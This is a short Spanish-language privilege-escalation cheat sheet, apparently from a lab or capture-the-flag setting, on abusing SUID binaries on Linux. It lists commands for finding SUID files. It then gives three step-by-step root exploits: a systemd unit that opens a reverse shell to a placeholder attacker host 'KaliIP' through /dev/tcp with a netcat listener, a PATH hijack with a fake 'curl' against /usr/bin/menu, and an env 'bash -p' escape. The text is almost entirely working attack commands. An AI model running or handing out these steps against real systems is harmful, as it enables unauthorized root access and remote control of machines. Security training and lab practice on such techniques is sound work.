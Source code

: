 Parte 1.-  Permisos SUID

find /  -perm -4000 2>/dev/null

find / -perm -u=s 2>/dev/null

binarios:  

A.-	/bin/systemctl

forma de vulnerarlo:

1.- crear un archivo root.service en tmp, con el siguiente código

[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'

[Install]
WantedBy=multi-user.target

2.- ejecutar el comando:

     /bin/systemctl enable /tmp/root.service

3.- poner en escucha el netcat en el puerto 9999

     nc -lvnp 9999

4.- ejecutar el comando
      
      /bin/systemctl start root

5.- ¡ ROOT !

-------------------------------------------------------------------------------

B.- 	/usr/bin/menu

escribimos strings /usr/bin/menu en la ruta inicial que estamos al momento de conectarnos por ssh
con el comando anterior obtuvimos de respuesta:
curl -I localhost

entonces nos vamos a /tmp
y ejecutamos:

echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu

en Enter your choice : escribimos 1

-------------------------------------------------------------------------------

C.-	/usr/bin/env

./env /bin/bash -p -> gtfobins
